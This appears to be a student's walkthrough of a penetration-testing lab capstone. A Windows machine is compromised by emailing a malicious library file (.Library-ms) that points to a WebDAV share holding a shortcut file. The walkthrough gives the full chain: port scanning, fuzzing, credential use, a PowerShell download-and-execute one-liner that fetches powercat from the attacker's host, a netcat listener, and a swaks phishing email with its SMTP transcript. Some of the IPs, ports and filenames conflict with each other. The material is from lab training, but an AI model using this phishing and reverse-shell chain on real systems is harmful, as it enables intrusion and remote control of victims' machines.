 # Questions
Capstone Exercise: Enumerate the ADMIN (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution. Obtain a reverse shell and find the flag on the desktop for the Administrator user. You can use VM #3 of VM Group 2 to prepare your attack.

# Hint
1) Scan the ports with nmap.
2) Start by fuzzing the webserver for some hidden files (pdf,txt) using gobuster or ffuf.
3) Download any files you have found directly with tools like wget for futre anaylsis such as the creator of the file.
4) Use the commands provided in Listing 11 to host any malicious file and send the email.
5) Make sure you mount the correct path where you have the Webdav folder! Is it root/webdav or /home/kali/webdav?
6) Do not limit yourself with only tool and search for other powershell reverse shells.

# setup WebDAV on Kali
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav

# xfreerdp into the VM#3
xfreerdp /u:'offsec' /p:'lab' /v:192.168.244.194:3389 /size:95% /cert:ignore +clipboard /drive:smbfolder,/home/kali/webdav

# nmap scanning
nmap -sS 192.168.244.199
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
135/tcp open  msrpc
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
587/tcp open  submission

# Fuzz web server
gobuster dir -u http://192.168.244.199/ -w /usr/share/wordlists/dirb/common.txt -x pdf
found info.txt

Wget http://192.168.244.199/info.pdf

Examine with Exiftool 
exiftool -a -u info.pdf

# Inside the PDF mentioned
"ADMIN server hosts an e-mail server, All local addresses are <firstname>.<lastname>@supermagicorg.com"
"You can test it via test@supermagicorg.com with password test. All accounts of IT staff are already created and usable."

Means we can use <test@supermagic.org> to sent the email to <dave.wizard@supermagicorg.com>

# Now we need to prepare the payload
# kali command prompt
LHOST=192.168.45.185
LPORT=8443
pwsh -c "iex (New-Object System.Net.WebClient).DownloadString('http://$LHOST:88/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > revshell-pwsh.txt

# Make sure the code are hashed and listen to payload remote port
head revshell-pwsh.txt 
nc -lvnp 8443

# Create a shortcut file "automatic_configuration.lnk" and paste below code to shortcut
powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.45.185:8088/revshell-pwsh.txt'); iex 'powershell -E $code'""

# Create a Microsoft Library file "config.Library-ms" and change the URL tags
```
<url>http://192.168.45.165</url>
```
# Copy "config.Library-ms" and "automatic_configuration.lnk" file to the webdav folder
cd /home/kali/webdav

# Now payload had prepared, now we can send the Payload through email using swaks.
swaks -t dave.wizard@supermagicorg.com -s 192.168.196.199:587 -au test@supermagicorg.com -ap test -f test@supermagicorg.com --body email.txt --attach @config.Library-ms --header "Subject: Configurations"
=== Trying 192.168.244.199:587...
=== Connected to 192.168.244.199.
<-  220 ADMIN ESMTP
 -> EHLO kali
<-  250-ADMIN
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
<-  334 UGFzc3dvcmQ6
 -> dGVzdA==
<-  235 authenticated.
 -> MAIL FROM:<test@supermagicorg.com>
<-  250 OK
 -> RCPT TO:<dave.wizard@supermagicorg.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Fri, 12 Apr 2024 00:25:52 -0700
 -> To: dave.wizard@supermagicorg.com
 -> From: test@supermagicorg.com
 -> Subject: Configurations
 -> Message-Id: <20240412002552.141775@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_141775"
 -> 
 -> ------=_MIME_BOUNDARY_000_141775
 -> Content-Type: text/plain
 -> 
 -> email.txt
 -> ------=_MIME_BOUNDARY_000_141775
 -> Content-Type: application/octet-stream; name="config.Library-ms"
 -> Content-Description: config.Library-ms
 -> Content-Disposition: attachment; filename="config.Library-ms"
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPGxpYnJhcnlEZXNjcmlwdGlv
 -> biB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5kb3dzLzIwMDkvbGlicmFy
 -> eSI+CjxuYW1lPkB3aW5kb3dzLnN0b3JhZ2UuZGxsLC0zNDU4MjwvbmFtZT4KPHZlcnNpb24+Njwv
 -> dmVyc2lvbj4KPGlzTGlicmFyeVBpbm5lZD50cnVlPC9pc0xpYnJhcnlQaW5uZWQ+CjxpY29uUmVm
 -> ZXJlbmNlPmltYWdlcmVzLmRsbCwtMTAwMzwvaWNvblJlZmVyZW5jZT4KPHRlbXBsYXRlSW5mbz4K
 -> PGZvbGRlclR5cGU+ezdkNDlkNzI2LTNjMjEtNGYwNS05OWFhLWZkYzJjOTQ3NDY1Nn08L2ZvbGRl
 -> clR5cGU+CjwvdGVtcGxhdGVJbmZvPgo8c2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb25MaXN0Pgo8
 -> c2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb24+Cjxpc0RlZmF1bHRTYXZlTG9jYXRpb24+dHJ1ZTwv
 -> aXNEZWZhdWx0U2F2ZUxvY2F0aW9uPgo8aXNTdXBwb3J0ZWQ+ZmFsc2U8L2lzU3VwcG9ydGVkPgo8
 -> c2ltcGxlTG9jYXRpb24+Cjx1cmw+aHR0cDovLzE5Mi4xNjguNDUuMTg1PC91cmw+Cjwvc2ltcGxl
 -> TG9jYXRpb24+Cjwvc2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb24+Cjwvc2VhcmNoQ29ubmVjdG9y
 -> RGVzY3JpcHRpb25MaXN0Pgo8L2xpYnJhcnlEZXNjcmlwdGlvbj4=
 -> 
 -> ------=_MIME_BOUNDARY_000_141775--
 -> 
 -> 
 -> .
<-  250 Queued (1.016 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.

# Then get the flag from Administrator user's desktop
